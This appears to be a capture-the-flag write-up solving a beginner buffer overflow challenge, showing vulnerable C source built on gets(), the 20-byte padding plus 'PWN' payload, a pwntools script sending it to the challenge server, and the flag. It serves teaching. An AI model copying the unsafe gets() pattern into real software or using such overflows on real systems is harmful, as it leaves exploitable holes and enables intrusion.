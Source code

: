 ```yaml
---
title: "Buffer Overflow"
date: 2021-12-11
draft: false
tags: ["Pwn"]
categories: ["Pwn"]
summary: "Writeup for Buffer Overflow"
author: "1byteBoy"
---
```


## Description

**`Author : rennfurukawa`**

Maybe it's your first time pwning? Can you overwrite the variable?

`nc ctf.tcp1p.com 17027`

## Intuition

*Honestly i knew nothing about buffer overflows not even a A of it, but i did take time to learn some basic practises where we can overflow a stack by putting a long input, this is mainly due to a vulnerable function in C programming language named `gets()`* 

on connecting it asks us for an input

```
Can you get the exact value to print the flag?
Input:
```

so if we put some A's say `AAAAA` it says the following

```
Sad, too low! :(, maybe you can add *more* value 0_0

Output : AAA, Value : 0
```

now if we put a long string of A's `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`

```
Too high!

Output : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA, Value : 1094795585
```

note that the value changed from 0 to some large value too. 

*now to exactly understand what's going on, i have to download the source code file that came along with the challenge*

```c
#include <stdio.h>
#include <stdlib.h>

char buff[20];
int buff2;

void setup(){
	setvbuf(stdin, buff, _IONBF, 0);
	setvbuf(stdout, buff, _IONBF, 0);
	setvbuf(stderr, buff, _IONBF, 0);
}

void flag_handler(){
	FILE *f = fopen("flag.txt","r");
	if (f == NULL) {
	printf("Cannot find flag.txt!");
	exit(0);
}

void buffer(){

	buff2 = 0;
	printf("Can you get the exact value to print the flag?\n");
	printf("Input: ");
	fflush(stdout);
	gets(buff);
	if (buff2 > 5134160) {
		printf("Too high!\n\n");
	} else if (buff2 == 5134160){
		printf("Congrats, You got the right value!\n");
		system("cat flag.txt");
	} else {
	printf("Sad, too low! :(, maybe you can add *more* value 0_0\n\n");
	}
	printf("\nOutput : %s, Value : %d \n", buff, buff2);
}

int main(){
	flag_handler();
	setup();
	buffer();
}
```

we can see that the initial buffer value or the input buffer size is `20` named *buff* and the code is doing something where is the extra buffer value is initialised to the integer variable named `buff2`  

and then in the conditional statement it is checking for that size, where if the buffer size is equal to 5134160 then we get our flag.

so i compiled the code and started testing on it, first thing i tried is checking the original buffer size by putting 20 A's in input field

```
Can you get the exact value to print the flag?
Input: AAAAAAAAAAAAAAAAAAAA
Sad, too low! :(, maybe you can add *more* value 0_0

Output : AAAAAAAAAAAAAAAAAAAA, Value : 0
```

expected, but what if we add one more A

```
Can you get the exact value to print the flag?
Input: AAAAAAAAAAAAAAAAAAAAA
Sad, too low! :(, maybe you can add *more* value 0_0

Output : AAAAAAAAAAAAAAAAAAAAA, Value : 65
```

okay 65, now if we observer 65 is ASCII value of capital letter `A`

that means after 20 A's we have to add some character's who's ASCII value set's to hex of `5134160`

## Solution

```
$ python3
>> hex(5134160)
'0x50574e'
```

which is ASCII is `PWN`

now if we enter `AAAAAAAAAAAAAAAAAAAAPWN`

```
Can you get the exact value to print the flag?                            
Input: AAAAAAAAAAAAAAAAAAAAPWN 
Congrats, You got the right value!                 
TCP1P{ez_buff3r_0verflow_l0c4l_v4r1abl3_38763f0c86da16fe14e062cd054d71ca} 
Output : AAAAAAAAAAAAAAAAAAAAPWN, Value : 5134160
```

*other way if we have done it is compiling the source code and open it with a tool named `ghidra`* where looking at the `buffer` function would gave us the same idea clearly 

```c
  if ((int)buff2 < 0x4e5751) {
    if (buff2 == 0x4e5750) {
      puts("Congrats, You got the right value!");
      system("cat flag.txt");
    }
    else {
      puts("Sad, too low! :(, maybe you can add *more* value 0_0\n");
    }
```

Here is getting done with code i have wrote with python

```python
#!/usr/bin/python3

from pwn import *

ip = 'ctf.tcp1p.com'
port = '17027'
r = remote(ip, port)

# setup
int_value = 5134160
hexa_string = hex(int_value)
slicing = hexa_string[2:]
converting_hexa = bytes.fromhex(slicing)
ascii_string = converting_hexa.decode()[::-1]

# payload
offset = 'A' * 20
payload = offset + ascii_string
  
# send payload
r.sendline(payload)
print(r.recvall().decode())
```

`TCP1P{ez_buff3r_0verflow_l0c4l_v4r1abl3_38763f0c86da16fe14e062cd054d71ca}`